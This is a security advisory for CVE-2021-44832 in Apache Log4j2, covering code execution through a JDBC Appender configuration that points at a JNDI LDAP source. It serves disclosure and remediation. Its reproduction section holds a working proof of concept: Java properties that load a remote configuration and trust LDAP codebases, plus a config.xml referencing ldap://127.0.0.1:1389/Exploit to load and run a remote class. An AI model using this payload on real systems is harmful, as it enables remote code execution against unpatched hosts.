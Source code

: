 ```yaml
---
title: Deserialization attack via JDBC Appender in log4j
date: 2021-12-30
tags:
	- "java"
	- "deserialization"
	- "log4j"
	- "log4j2"
advisory: true
origin: https://advisory.checkmarx.net/advisory/CX-2021-4814/
cves:
	- "CVE-2021-44832"
---
```

## Summary
Apache Log4j2 versions 2.0-beta7 through 2.17.0 (excluding security fix releases 2.3.2 and 2.12.4) are vulnerable to a Arbitrary Code Execution attack where an attacker with permission to modify the logging configuration file can construct a malicious configuration using JDBC Appender with a data source referencing a JNDI URI which can execute remote code. This issue is fixed by limiting JNDI data source names to the java protocol in Log4j2 versions 2.17.1, 2.12.4, and 2.3.2.

## Product
Apache Log4j2 versions 2.0-beta7 through 2.17.0 (excluding security fix releases 2.3.2 and 2.12.4).

## Impact
In case an attacker can modify the logging configuration (due to fetching remote configuration feature in log4j this opens different attack vectors, such as MITM, DNS poisoning, lateral movement after gaining access to a storage node) an Arbitrary Code Execution could be achieved.

## Steps to reproduce
Using the same LDAP server as done in the CVE-2021-44228 PoC, all we need to do is to run: 
 
```java
System.setProperty("log4j2.configurationFile","http://127.0.0.1:8888/config.xml"); 
System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true"); 
final Logger logger = LogManager.getLogger(log4j.class); 
```

And to serve the following config.xml: 

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<Configuration status="error"> 
    <Appenders> 
        <JDBC name="databaseAppender" tableName="dbo.application_log"> 
            <DataSource jndiName="ldap://127.0.0.1:1389/Exploit" /> 
            <Column name="eventDate" isEventTimestamp="true" /> 
            <Column name="level" pattern="%level" /> 
            <Column name="logger" pattern="%logger" /> 
            <Column name="message" pattern="%message" /> 
            <Column name="exception" pattern="%ex{full}" /> 
        </JDBC> 
    </Appenders> 
    <Loggers> 
        <Root level="warn"> 
            <AppenderRef ref="databaseAppender"/> 
        </Root> 
    </Loggers> 
</Configuration> 
```

### Expected result:
When initializing the logger object, a request to the config.xml will be made. In the loading process, an attempt to load the DataSource will make a request to the LDAP server that will then redirect to a malicious class. In the end, the arbitrary class will be deserialized and run. 

## Remediation
Update log4j to one of the fixed versions.

## Credit
This issue was discovered and reported by Checkmarx Security Researchers [Yaniv Nizry](https://twitter.com/ynizry) and [Liad Levy](https://twitter.com/liad__levy).

## Resources
1. [Release Candidate](https://lists.apache.org/thread/kflcpnczh2y0vhfxn5fd0fnxb80l5kwm) 
2. [Commit](https://github.com/apache/logging-log4j2/commit/05db5f9527254632b59aed2a1d78a32c5ab74f16)
3. [Blog Post](https://checkmarx.com/blog/cve-2021-44832-apache-log4j-2-17-0-arbitrary-code-execution-via-jdbcappender-datasource-element/)

